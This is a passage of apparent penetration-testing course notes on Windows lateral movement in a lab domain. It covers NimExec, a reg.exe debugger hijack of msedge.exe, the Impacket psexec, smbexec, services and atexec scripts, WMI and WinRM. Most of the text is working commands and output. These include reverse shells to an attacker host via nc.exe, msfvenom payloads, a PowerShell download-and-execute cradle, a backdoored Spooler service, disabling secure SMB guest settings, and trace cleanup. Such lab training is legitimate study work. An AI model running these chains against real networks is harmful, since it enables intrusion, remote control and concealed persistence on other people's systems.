|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m


[!] Missing one or more arguments!
[!] Error unknown or missing parameters!

    -v | --verbose                          Enable more verbose output.
    -u | --username <Username>              Username for NTLM Authentication.*
    -h | --hash <NTLM Hash>                 NTLM password hash for NTLM Authentication.**
    -p | --password <Password>              Plaintext password.**
    -t | --target <Target>                  Lateral movement target.*
    -c | --command <Command>                Command to execute.*
    -d | --domain <Domain>                  Domain name for NTLM Authentication.
    -s | --service <Service Name>           Name of the service instead of a random one.
    --help                                  Show the help message.
```

NimExec works similarily to SharpNoPSExec. Start your listener:

```bash
d41y@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
```

To execute NimExec, you must specify the administrator credentials with the options `-u <user>`, `-p <password>` and `-d <domain>`, and the target IP address `-t <ip>`. Alternatively, you can use the NTLM hash for authentication `-h <NT hash>` instead of the password. Finally, you must specify the payload to execute with the option `-c <cmd.exe> /c <reverseShell>`. You can generate the reverse shell payload using revshells.com, and to convert the plain text password to NTLM hash, you can use this [recipe](https://gchq.github.io/CyberChef/#recipe=NT_Hash()) in CyberChef.

```powershell
PS C:\Tools> .\NimExec -u helen -d inlanefreight.local -p RedRiot88 -t 172.20.0.52 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m


[+] Connected to 172.20.0.52:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Binded to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 208
[+] Selected service is AppMgmt
[+] Service: AppMgmt is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs -p
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
```

Once you execute the tool with the above parameters, you are going to succesfully establish a reverse shell connection:

```bash
d41y@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

PS C:\Windows\system32>
```

##### Reg.exe

Having remote access to the registry with write permissions effectively provides RCE capabilities. This process utilizes the `winreg` SMB pipe. Typically, the remote registry service is enabled by default only on server-class OS.

You can leverage the program launch handler to move laterally on the network, modifying a registry key to a program frequently used on the target host; you could achieve RCE almost immediately.

Before proceeding with `reg.exe` for lateral movement, you must set up an SMB server to host your payload. You will be using `nc.exe` as your payload to get a revshell:

```bash
d41y@htb[/htb]$ sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In your attack host you execute your listener:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

Now, you can execute `reg.exe` to add a new registry key to Microsoft Edge (`msedge.exe`). The idea is that once `msedge.exe` is executed, it will also execute your specified payload. You must specify the full path of the subkey or the entry to be added with the domain name `dd \\<domain>\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe`. `/v Debugger` specifies the name of the add registry entry and will ensure that your payload gets executed, `/t reg_sz` specifies the datatype of a Null-terminated string, and finally, you can type of your payload `/d <payload>`:

```powershell
PS C:\Tools> reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

The operation completed successfully.
```

Once Microsoft Edge is opened by any user in the domain, you will instantly get a reverse shell:

```bash
d41y@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

C:\Program Files (x86)\Microsoft\Edge\Application>
```

It is important to keep in mind that to use SMB share folder without authentication you need to have the following registry key set to `1`:

```powershell
PS C:\Tools> reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
    AllowInsecureGuestAuth    REG_DWORD    0x0
```

The above registry key is responsible for allowing guest access in SMB2 and SMB3 which is disabled by default on Windows. If you have an account with administrative rights, you can use the following command to allow insecure guest authentication:

```powershell
PS C:\Tools> reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.
```

#### Lateral Movement from Linux

To achieve lateral movement from Linux you can use the Impacket tool set. Impacket is a suite of Python libraries designed for interacting with network protocols. It focuses on offering low-level programmatic control over packet manipulation and, for certain protocols like SMB and MSRPC, includes the protocol implementations themselves.

##### [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

... is a great alternative for Linux users. This method is very similar to the traditional PsExec tool from Sysinternals suite. Psexec.py creates a remote service by uploading an executable with a random name to the `ADMIN$` share on the target Windows machine. It then registers this service via RPC and the Windows Service Control Manager. Once registered, the tool establishes communication through a named pipe, allowing for the execution of commands and retrieval of outputs on the remote system. Understanding this mechanims is crucial for effectively utilizing the tool and appreciating its role in facilitating RCE.

You can use psexec.py to get remote code execution on a target host, administrator login credentials are required. You must provide the domain, admin level user, password, and the target IP as follows `<domain>/<user>:<password>@<ip>`: 

```bash
d41y@htb[/htb]$ proxychains4 -q psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.20.0.52.....
[*] Found writable share ADMIN$
[*] Uploading file sRhFLBbo.exe
[*] Opening SVCManager on 172.20.0.52.....
[*] Creating service KQWG on 172.20.0.52.....
[*] Starting service KQWG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

##### smbexec.py

The [smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) method leverages the built-in Windows SMB functionality to run arbitrary commands on a remote system without uploading files, making it a quieter alternative.

Communication occurs exclusively over TCP port 445. It also sets up a service, using only MSRPC for this, and manages the service through the `svcctl` SMB pipe.

To use this tool, you must provide the domain name, administrator user, password, and the target IP address `<domain>/<user>:<password>@<ip>`:

```bash
d41y@htb[/htb]$ proxychains4 -q smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

As you can see, you now have established a semi-interactive shell on the host.

##### services.py

The [services.py](https://github.com/fortra/impacket/blob/master/examples/services.py) script in Impacket interacts with Windows services using the MSRPC interface. It allows starting, stopping, deleting, reading status, configuring, listing, creating, and modifying services. During Red Teaming assignments, many tasks can be greatly simplified by gaining access to the target machine's services. This technique is non-interactive, meaning that you won't be able to see the results of the actions in real time.

You can view a list of services in the target host, by typing the command `list` after providing the domain name, the administrator account, the password, and target IP address `<domain>/<user>:<password>@<ip>`:

```bash
d41y@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Listing services available on target
                      1394ohci -                                    1394 OHCI Compliant Host Controller -  STOPPED
                         3ware -                                                                  3ware -  STOPPED
                          ACPI -                                                  Microsoft ACPI Driver -  RUNNING
                       AcpiDev -                                                    ACPI Devices driver -  STOPPED
                        acpiex -                                                Microsoft ACPIEx Driver -  RUNNING
                      acpipagr -                                       ACPI Processor Aggregator Driver -  STOPPED

...SNIP...

          WpnUserService_7a815 -                          Windows Push Notifications User Service_7a815 -  RUNNING
                          KQWG -                                                                   KQWG -  RUNNING
Total Services: 543
```

To move laterally with this tool, you can set up a new service, modify an existing one, and define a custom command to get a reverse shell.

To create a new service, instead of using the option `list` you will use `create` followed by the name of the new service `-name <serviceName>`, a display name `-display "<Service Display Name>"` and finally you specify the command you want to execute with the option `-path "cmd /c <payload>"`.

For your payload, you will use the Metasploit output option `exe-service`, which creates a service binary.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload                                     
No encoder specified, outputting raw payload   
Payload size: 460 bytes                        
Final size of exe-service file: 48640 bytes    
Saved as: rshell-9001s.exe
```

Now, you can execute the following command to create a new service:

```bash
d41y@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating service Service Backdoor
```

You can view the configuration of the custom command created using `config -name <serviceName>:

```bash
d41y@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying service config for Service Backdoor
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS  
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : \\10.10.14.207\share\rshell-9001.exe
LOAD_ORDER_GROUP  : 
TAG               : 0
DISPLAY_NAME      : Service Backdoor
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem
```

Before you run the service, you must ensure that the SMB server has the file that will be executed:

```bash
d41y@htb[/htb]$ sudo smbserver.py share -smb2support ./
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

You must start your Netcat listener:

```bash
d41y@htb[/htb]$ nc -lnvp 9001
Listening on 0.0.0.0 9001
```

You can now start the service with `start -name <serviceName>:

```bash
d41y@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor' 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Service Backdoor
```

Looking at your attack host, you have successfully established a reverse shell:

```bash
d41y@htb[/htb]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.244] 62855
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Finally, you can cover up the traces and delete the service by typing `delete -name <serviceName>`:

```bash
d41y@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Deleting service Service Backdoor
```

Alternatively, you use `services.py` to modify existing services; for example, if you find a service authenticated as a specific user account, you can change the configuration of that service and make it execute your payload. In the following example, you can modify the Spooler service to execute your payload. First, see the current service configuration:

```bash
d41y@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                      
                                               
[*] Querying service config for Spooler
TYPE              : 272 -  SERVICE_WIN32_OWN_PROCESS  SERVICE_INTERACTIVE_PROCESS                                                                                                             
START_TYPE        :  4 -  DISABLED
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP  : SpoolerGroup    
TAG               : 0               
DISPLAY_NAME      : Print Spooler  
DEPENDENCIES      : RPCSS/http/
SERVICE_START_NAME: LocalSystem
```

Next, you will modify the binary path to your payload and set the `START_TYPE` to `AUTO_START` with the option `-start_type 2`_

```bash
d41y@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing service config for Spooler
```

Finally, you can start the service and wait for your command execution:

```bash
d41y@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Spooler
```

The advantage of this is that if a service is configured with a specific user account, you can take advantage of that account and impersonate it.

##### [atexec.py](https://github.com/fortra/impacket/blob/master/examples/atexec.py)

The `atexec.py` script utilizes the Windows Task Scheduler service, which is accessible through the `atsv` SMB pipe. It enables you to remotely append to the scheduler, which will execute at the designated time.

With this tool, the command output is sent to a file, which is subsequently accessed via the `ADMIN$` share. For this utility to be effective, it's essential to synchronize the clocks on both the attacking and target PCs down to the exact minute.

You can leverage this tool by inserting a revshell on the target host.

Start a listener:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

Now pass the domain name, administrator user, password, and target IP address `<domain>/<user>:<password>@<ip>`, and lastly, you can pass your revshell payload to get executed.

```bash
d41y@htb[/htb]$ proxychains4 -q atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \tEQBXeQm
[*] Running task \tEQBXeQm
[*] Deleting task \tEQBXeQm
[*] Attempting to read ADMIN$\Temp\tEQBXeQm.tmp
```

You have successfully established a reverse shell connection in your attack box:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 50027

PS C:\Windows\system32>
```

### Windows Management Instrumentation

Windows Management Instrumentation (_WMI_) is a powerful Windows feature that provides a standardized way to interact with system management information and manage devices and application in a networked environment. WMI can be used to query system information, configure system settings, and perform administrative tasks on remote machines. It is particularly useful for automation, monitoring, and scripting tasks. WMI communication primarily uses TCP port 135 for the initial connection and dynamically allocated ports in the range 49152-65535 for subsequent data exchange.

#### Rights

To effectively use WMI for lateral movement within a network, it is crucial to have the necessary permissions on the target system. Generally, this means having administrative privileges. However, certain WMI namespaces and operations can be accessed with lower privileges if they are specifically configured to allow it.

By default, only users who are members of the Administrators group can perform remote WMI operations. This is because remote WMI tasks often involve actions that require high-level access, such as querying system information, executing processes, or changing system settings.

#### Enum

Before using WMI for lateral movement, it is essential to determine which systems have WMI enabled and accessible. Enumeration can be performed using various tools and scripts to identify targets. Here, you will use nmap and netexec to identify if the target has WMI ports available.

You can use nmap to scan for open ports on the network to identify systems with WMI services running. Since WMI uses TCP port 135 for the initial connection and dynamic ports in the range 49152-65535 for subsequent communication, a scan targeting these ports can help identify potential targets.

```bash
d41y@htb[/htb]$ nmap -p135,49152-65535 10.129.229.244 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-05 09:03 AST
Nmap scan report for 172.20.0.52
Host is up (0.13s latency).
Not shown: 16378 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
135/tcp   open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49670/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc      Microsoft Windows RPC
49672/tcp open  msrpc      Microsoft Windows RPC
49686/tcp open  msrpc      Microsoft Windows RPC
49731/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

To test credentials against WMI you will use NetExec. Select the protocol `wmi` and the account `Helen` and the password `RedRiot88`.

```bash
d41y@htb[/htb]$ netexec wmi 10.129.229.244 -u helen -p RedRiot88
RPC         10.129.229.244  135    SRV01            [*] Windows 10 / Server 2019 Build 17763 (name:SRV01) (domain:inlanefreight.local)
RPC         10.129.229.244  135    SRV01            [+] inlanefreight.local\helen:RedRiot88
```

By default, only administrators can execute actions using WMI remotely. In the above example, the user `helen` doesn't have rights to execute commands on SRV01 using WMI, because you don't see `(Pwn3d!)`. However, it can still be used to authenticate accounts or verify if credentials are correct. There are rare cases where non-administrator accounts are explicitly configured to use WMI remotely, but this is not the default behavior. Nonetheless, it is worth checking.

You can attempt to execute commands on SRV02. You would need to configure chisel and use proxychains to connect to the target server beforehand:

```bash
d41y@htb[/htb]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88
RPC         172.20.0.52     135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52     135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
```

#### Lateral Movement from Windows

On Windows you can use `wmic` and PowerShell to interact with WMI. The WMI command-line is a command-line interface that allows administrators to query and manage various aspects of the Windows OS system programmatically. This is achieved through different namespaces and classes. For example, the `Win32_OperatingSystem` class is used for retrieving OS details, `Win32_Process` for managing processes, `Win32_Service` for handling services, and `Win32_ComputerSystem` for overall system information. These classes provide properties that describe the current state of the system and methods to perform administrative actions.

Connect via RDP to SRV01 using helen's credentials.

```bash
d41y@htb[/htb]$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux
```

To retrieve detailed information about the OS from a remote computer, you can use the following WMIC command:

```powershell
PS C:\Tools> wmic /node:172.20.0.52 os get Caption,CSDVersion,OSArchitecture,Version
Caption                                 CSDVersion  OSArchitecture  Version
Microsoft Windows Server 2019 Standard              64-bit          10.0.17763
```

You can perform the same action using PowerShell:

```powershell
PS C:\Tools> Get-WmiObject -Class Win32_OperatingSystem -ComputerName 172.20.0.52 | Select-Object Caption, CSDVersion, OSArchitecture, Version

Caption                                CSDVersion OSArchitecture Version
-------                                ---------- -------------- -------
Microsoft Windows Server 2019 Standard            64-bit         10.0.17763
```

In addition to querying information, WMI also allows for executing commands remotely. This capability is particularly useful for administrative tasks such as starting or stopping processes, running scripts, or changing system configurations without direct machine access. In your case, you can use it for lateral movement. Here is an example of using WMIC to create a new process on a remote machine:

```powershell
PS C:\Tools> wmic /node:172.20.0.52 process call create "notepad.exe"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 700;
        ReturnValue = 0;
};
```

In this example, the WMIC command is used to remotely start `notepad.exe` on the computer with IP address `172.20.0.52`. The same task can be accomplished using PowerShell for more flexibility and integration with scripts:

```powershell
PS C:\Tools> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName 172.20.0.52
```

Additionally, you can also specify credentials to within `wmic` or PowerShell:

```powershell
PS C:\Tools> wmic /user:username /password:password /node:172.20.0.52 os get Caption,CSDVersion,OSArchitecture,Version
```

```powershell
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential("username", (ConvertTo-SecureString "password" -AsPlainText -Force));
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName 172.20.0.52 -Credential $credential
```

You can try to use the same payload you used with SharpRDP to get a metasploit session using WMI:

```powershell
PS C:\Tools> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" -ComputerName 172.20.0.52

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ProcessId        : 8084
ReturnValue      : 0
PSComputerName   :
```

#### Lateral Movement from Linux

Interacting with WMI from a Linux system can be accomplished using various tools and libraries that support the WMI protocol. Below are some commonly used tools for this purpose. `wmic` is a command-line tool that allows you to interact with WMI from Linux. It provides a straightforward way to query and manage Windows systems. To install `wmic` you need to install the `wmi-client` package. On Debian-based systems, you can install it using the following commands:

```bash
d41y@htb[/htb]$ sudo apt-get install wmi-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  wmi-client
0 upgraded, 1 newly installed, 0 to remove and 73 not upgraded.
...SNIP...
```

Once installed, you can use `wmic` to run queries against a remote Windows machine. Here's an example of querying the OS details:

```bash
d41y@htb[/htb]$ wmic -U inlanefreight.local/helen%RedRiot88 //172.20.0.52 "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"
CLASS: Win32_OperatingSystem
Caption|CSDVersion|OSArchitecture|Version
Microsoft Windows Server 2019 Standard|(null)|64-bit|10.0.17763
```

Additionally, `impacket` includes the built-in script `wmiexec.py` for executing commands using WMI. Keep in mind that `wmiexec.py` uses port 445 to retrieve the output of the command and if port 445 is blocked, it won't work. If you want to omit the output, you can use the options `-silentcommand` or `-nooutput`:

```bash
d41y@htb[/htb]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 whoami
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra

[-] [Errno Connection error (172.20.0.52:445)] timed out
```

```bash
d41y@htb[/htb]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 whoami -nooutput
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra
```

Alternatively, you can use NetExec to run WMI queries or execute commands using WMI. To perform a query you can use the option `--wmi <QUERY>`:

```bash
d41y@htb[/htb]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 --wmi "SELECT * FROM Win32_OperatingSystem"
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            Caption => Microsoft Windows Server 2019 Standard
WMI         172.20.0.52  135    SRV02            Description =>
WMI         172.20.0.52  135    SRV02            Name => Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
WMI         172.20.0.52  135    SRV02            Status => OK  
WMI         172.20.0.52  135    SRV02            CSCreationClassName => Win32_ComputerSystem
...SNIP...
```

To execute commands you can use the protocol `wmi` with the option `-x <COMMAND>`. Unlike impacket `wmiexec.py`, netexec can retrieve the output using WMI rather than SMB:

```bash
d41y@htb[/htb]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 -x whoami
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            [+] Executed command: "whoami" via wmiexec
WMI         172.20.0.52  135    SRV02            inlanefreight\helen
```

### WinRM

... is Microsoft's version of the WS-Management (_Web Services-Management_) protocol, a standard protocol for managig software and hardware remotely. WinRM facilitates the transfer of management data between computers, enabling administrators to perform a variety of tasks, such as running scripts and retrieving event data from remote systems.

WinRM is commonly used in conjunction with PowerShell for automation and administrative purposes, making it an indispensable tool for managing Windows environments. It provides a secure and efficient method to interact with remote systems, leveraging established web standards to ensure compatibility and flexibility. WinRM communicatin primarily utilizes TCP port 5985 for HTTP and 5986 for HTTPS.

#### Rights

To abuse WinRM for lateral movement, specific rights are required on the target system. While administrative privileges are often necessary, non-administrator accounts can also be granted with the required permissions to use WinRM. By default, members of the Remote Management Users group have the necessary access. Additionally, certain configurations and policies can grant WinRM access to other users.

Identifying users with the rights to use WinRM involves checking group memberships, group policies, and testing credentials.

- **Remote Management Users Group**: Members of this group inherently have the permissions needed to use WinRM.
- **Group Policies**: Review group policies that might grant WinRM access to specific users.
- **Testing Credentials**: Test if various credentials can successfully connect via WinRM using different tools to verify their validity and access rights.
- **AD**: You can use tools such as BloodHound or LDAP queries to find users with WinRM rights.

#### Enum

Before using WinRM for lateral movement, it is essential to determine which systems have WinRM enabled and accessible. Enumeration can be performed using various tools and scripts to identify targets.

```bash
d41y@htb[/htb]$ nmap -p5985,5986 10.129.229.244 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 12:52 AST
Nmap scan report for 10.129.229.244
Host is up (0.13s latency).

PORT     STATE    SERVICE VERSION
5985/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp filtered wsmans
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

To test credentials against WinRM, you can use NetExec:

```bash
d41y@htb[/htb]$ netexec winrm 10.129.229.244 -u frewdy -p Kiosko093
WINRM       10.129.229.244  5985   SRV01            [*] Windows 10 / Server 2019 Build 17763 (name:SRV01) (domain:inlanefreight.local)
WINRM       10.129.229.244  5985   SRV01            [+] inlanefreight.local\frewdy:Kiosko093 (Pwn3d!)
```

To enumerate WinRM rights, you can use BloodHound. However, even if you use BloodHound, it will not query the local group members. The only way to check if an account has the rights to connect over WinRM is through testing. When you compromise an account, it is recommended that you try different ways to perform lateral movement.

#### Lateral Movement from Windows

You can use PowerShell to interact with WinRM on Windows. PowerShell has cmdlets such as `Invoke-Command` and `Enter-PSSession` to manage and execute commands on remote systems.

You need to launch a PowerShell session as the account you want to use to interact with the remote computer. In this case, you are using Helen's credentials, as this account is a member of Remote Management Users on SRV02.

```powershell
PS C:\Tools> Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami }
SRV02
inlanefreight\helen
```

Additionally, you can specify credentials with the `-Credential` parameter:

```bash
PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname }
inlanefreight\helen
SRV02
```

> [!INFO]
> If you use the IP instead of the computer name, you must use explicit credentials, or alternatively, you can use the flag `-Authentication Negotiate` instead of providing explicit credentials.

`winrs` is a command line tool allowing to execute commands on a Windows machine using WinRM remotely.

```powershell
PS C:\Tools> winrs -r:srv02 "powershell -c whoami;hostname"
inlanefreight\helen
SRV02
```

`winrs` also allows you to use explicit credentials with the options `/username:<username>` and `/password:<password>` as follows:

```powershell
PS C:\Tools> winrs /remote:srv02 /username:helen /password:RedRiot88 "powershell -c whoami;hostname"
inlanefreight\helen
SRV02
```

##### Copy Files

PowerShell provides robust functionality for copying files between systems, which is especially useful during lateral movement. One effective way to achieve this is by using PowerShell remoting sessions over WinRM. This approach allows for secure and efficient file transfer between remote systems.

To copy files using a PowerShell session, you first need to establish a remote session with the target machine. This can be done using the `New-PSSession` cmdlet. Create a variable and name it `$sessionSRV02`:

```powershell
PS C:\Tools> $sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential
```

Once the session is established, you can use the `Copy-Item` cmdlet to copy from or to the target machine. To copy a file in your current machine to the target machine, you need to use the command `-ToSession <sessionVariable>` to specify the path of the file you want to transfer with the option `-Path <local file>` and the destination on the target machine with the option `-Destination <path remote machine>`:

```powershell
PS C:\Tools> Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\helen\Desktop\Sample.txt' -Destination 'C:\Users\helen\Desktop\Sample.txt' -Verbose
VERBOSE: Performing the operation "Copy File" on target "Item: C:\Users\helen\Desktop\Sample.txt Destination: C:\Users\helen\Desktop\Sample.txt".
```

If you want to do the opposite and copy a file from the target machine, you need to use `-FromSession <sessionVariable>`:

```powershell
PS C:\Tools> Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose
VERBOSE: Performing the operation "Copy File" on target "Item: C:\Windows\System32\drivers\etc\hosts Destination: C:\Users\helen\Desktop\host.txt".
```

##### Interactive Shell

